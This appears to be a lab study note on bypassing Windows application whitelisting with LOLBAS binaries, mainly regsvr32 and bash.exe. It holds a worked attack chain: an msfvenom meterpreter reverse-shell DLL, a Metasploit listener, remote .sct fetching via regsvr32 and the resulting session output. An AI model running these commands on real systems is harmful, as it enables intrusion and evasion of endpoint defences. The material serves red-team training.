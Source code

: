 # Bypassing Application Whitelisting

Application Whitelisting is a Microsoft endpoint security feature that prevents malicious and unauthorized programs from executing in real-time. It is rule-based, specifying a list of approved applications or executable files allowed to run on an operating system. This section focuses on LOLBAS (Living Off the Land Binaries and Scripts) examples used to bypass Windows application whitelisting.

---

## Regsvr32

**Regsvr32** is a Microsoft command-line tool to register and unregister Dynamic Link Libraries (DLLs) in the Windows Registry. The binary is located at:

- `C:\Windows\System32\regsvr32.exe` (32-bit)
- `C:\Windows\SysWOW64\regsvr32.exe` (64-bit)

Besides its intended use, `regsvr32.exe` can be abused to execute arbitrary binaries and bypass Windows Application Whitelisting. According to Red Canary, it is the third most popular ATT&CK technique. Adversaries leverage `regsvr32.exe` to execute native code or scripts locally or remotely, often in memory, making it effective for bypassing whitelisting.

### Example: Using Regsvr32 to Execute a Malicious DLL

1. **Generate a malicious DLL payload:**

    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f dll -a x86 > live0fftheland.dll
    ```

2. **Set up a Metasploit listener:**

    ```bash
    msfconsole -q
    msf6 > use exploit/multi/handler
    msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
    msf6 exploit(multi/handler) > set LHOST ATTACKBOX_IP
    msf6 exploit(multi/handler) > set LPORT 443
    msf6 exploit(multi/handler) > exploit
    ```

3. **Serve the DLL file via a web server:**

    ```bash
    python3 -m http.server 1337
    ```

4. **On the victim machine, download and execute the DLL:**

    ```cmd
    C:\Users\thm> c:\Windows\System32\regsvr32.exe c:\Users\thm\Downloads\live0fftheland.dll
    ```

    Or, using a more advanced command:

    ```cmd
    C:\Users\thm> c:\Windows\System32\regsvr32.exe /s /n /u /i:http://example.com/file.sct Downloads\live0fftheland.dll
    ```

    - `/s`: Silent mode (no messages)
    - `/n`: Do not call DLLRegisterServer
    - `/i:`: Use another server (with `/n`)
    - `/u`: Run with unregister method

5. **On the attacking machine, receive the reverse shell:**

    ```
    [*] Started reverse TCP handler on ATTACKBOX_IP:443
    [*] Sending stage (175174 bytes) to 10.10.159.197
    [*] Meterpreter session 1 opened (ATTACKBOX_IP:443 -> 10.10.159.197:52845)
    ```

> **Note:** For a 64-bit DLL, specify the architecture in `msfvenom` and use the 64-bit version of `regsvr32.exe` (`C:\Windows\SysWOW64\regsvr32.exe`).

---

## Bourne Again Shell (Bash)

Since 2016, Microsoft has supported the Linux environment on Windows 10, 11, and Server 2019 via Windows Subsystem for Linux (WSL). WSL allows users to run a Linux distribution on Windows, and `bash.exe` is the tool for interacting with this environment.

Attackers can abuse `bash.exe` (a Microsoft-signed binary) to execute payloads and bypass application whitelisting:

```bash
bash.exe -c "path-to-payload"
```

This is known as an **Indirect Command Execution** technique (see [ATT&CK T1202](https://attack.mitre.org/techniques/T1202/)), where Windows utilities are abused to obtain command execution.

> **Note:** WSL must be enabled and installed to use `bash.exe`. Some virtual machines may not support WSL due to nested virtualization restrictions.

---

## Further Reading

For more information on LOLBAS tools, visit the [LOLBAS project website](https://lolbas-project.github.io/).
